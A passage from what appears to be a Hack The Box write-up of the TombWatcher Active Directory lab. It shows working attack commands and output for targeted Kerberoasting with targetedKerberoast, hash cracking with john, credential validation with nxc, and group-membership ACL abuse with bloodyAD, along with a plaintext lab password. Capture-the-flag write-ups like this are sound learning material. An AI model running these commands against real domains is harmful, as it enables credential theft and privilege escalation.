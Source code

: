 - `sam` has **WriteOwner** on `john` (ACL takeover).
![1](/assets/img/favicons/tombwatcher-htb/5.png)

### Initial Foothold: Kerberoasting Alfred
Exploit WriteSPN (or use web backup creds directly). Request TGS:
```shell
┌──(kali㉿kali)-[/opt/tools/windows/targetedKerberoast]
└─$ targetedKerberoast -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' --request-user 'alfred'
[*] Starting kerberoast attacks
[*] Attacking user (alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$df223a219a24...<SNIP>...3b0d09
```

Crack hash:
```shell
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# john alfred.hash -w=/usr/share/wordlists/rockyou.txt 
```
![1](/assets/img/favicons/tombwatcher-htb/FoxitPDFEditor_tOw8Nf07hi.png)
- Password: [REDACTED] 
- Validate:
```shell
nxc smb 10.10.11.72 -u alfred -p [REDACTED] -d tombwatcher.htb
```

### User Escalation: GMSA and ACL Abuse
#### i. Add Alfred to INFRASTRUCTURE
```bash
┌──(root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# bloodyAD --host 10.10.11.72 -d 'tombwatcher.htb' -u alfred -p '[REDACTED] ' add groupMember 'INFRASTRUCTURE' alfred
[+] alfred added to INFRASTRUCTURE
```
